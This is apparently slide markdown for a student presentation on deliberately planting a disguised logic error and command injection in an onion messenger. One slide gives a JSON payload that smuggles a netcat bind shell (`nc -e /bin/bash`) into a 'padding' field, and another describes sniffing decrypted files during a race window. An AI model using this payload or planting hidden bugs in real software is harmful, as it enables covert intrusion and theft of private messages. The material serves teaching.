


### Vulnerability and Exploitation
### (with Onion Messengers)

<br>
<br>

- TA: SeongIl Wi
- DongHyeon Oh

Note:
Hello. this is presenter DongHyeon Oh.

As you know, today subject is Vulerability and Exploitation with Onion Messegners

---

## Goals

<br>

- Logic error : anybody can make a mistake |
- Command injection : victim should not be aware |
- Privacy breach : get a sensitive data |

Note:
In this activity, I determine three goals.

First of all, anybody can make a mistake sometimes in the coding.

So I make the logic error seems to a natural mistake.

Second, if a victim was attacked by attacker, he should not be aware.

The last thing is Get a sensitive data!

---

## Scenario

- Logic error |
- Control-flow hijack(Command injection) |
- Privacy breach |


Note:
Scenario is same with Goals.

Occuring the logic error, Control flow hijacking with command injection and Privacy breach.

T_T In a broad sense, command injection is control-flow hijack

---

## Protocol



Note:
This is our program's protocol.

there are id and bullian. they determine the packet status.

under the this protocol table, this is the code same with protocol.


---?code=assets/logic1.cpp&lang=c++&title=Recv thread source

@[1-5](Key alive)
@[6-10](Key die)
@[11-22](Get my message)
@[50-55](Not my message. So forwarding)
@[50-57](Abnormal input go to else condition)

Note:
This is real source code.

this is key alive, key die, my message, not my message

in the not my message, work foolish.

Because this condition get all abnormal input like this one.

but exactly this program doesn't die when recv this abnormal input.

Just push in to the queue.

---?code=assets/sendthread.cpp&lang=c++&title=Logic error

@[1-15](Send Thread)
@[1-4,16-17](General input / Abnormal input)

Note:
If there is a value in the queue, this send thread could work.

And send thread encrypt a padding.

So this abnormal input also ecncrypt the padding!

---?code=assets/cmdi.cpp&lang=c++&title=Command injection

@[1-4](Send Thread)
@[6-13](Encrypt)
@[9,13](Command injection)

Note:
And this Encrypt method has a command injection attack vector.

So we can put together this Logic error and command injection.

---

## Command injection

```
{"id":"1","bullian":"192","recvip":"172.17.0.10",
"padding":"`nc -e /bin/bash -llvp 9999 1>/dev/null 2>/dev/null`"}
```

Note:
We can make this payload for command injection.

ID equal one, bullian is no matter~

and input attack payload in the padding.

---

## Get shell!



Note:
Than we can get the shell!

Next step is Privacy breach

---

## Privacy breach

---?code=assets/privacy.cpp&lang=c++&title=pgpmanager.cpp

@[3,4,7](Make a file)
@[17,19](Delete a file)
@[7,8,17,18,19](There is a term)

Note:
This is Decrypt source code.

make a decrypt file and delete it.

And there is a term between make and delete.

So I can sniffing in this term.

---

## Demo

Note:
I am going to present Demo~

---

## Summary

- Logic error

- Control-flow hijack

- Privacy breach

---

# Q & A

---

## Appendix1

- Logic error

```
A bug in a program that causes it to operate incorrectly,
but not to terminate abnormally (or crash).

-> Send thread is operate incorrectly,
   but not to terminate abnormally!
```

---

## Appendix2

- README.md

- There are detail explanation in README.md
```
취약점 발생 원리 요약
취약점 발생 원리 상세 설명
Installation
Exploit usages
Examples
```
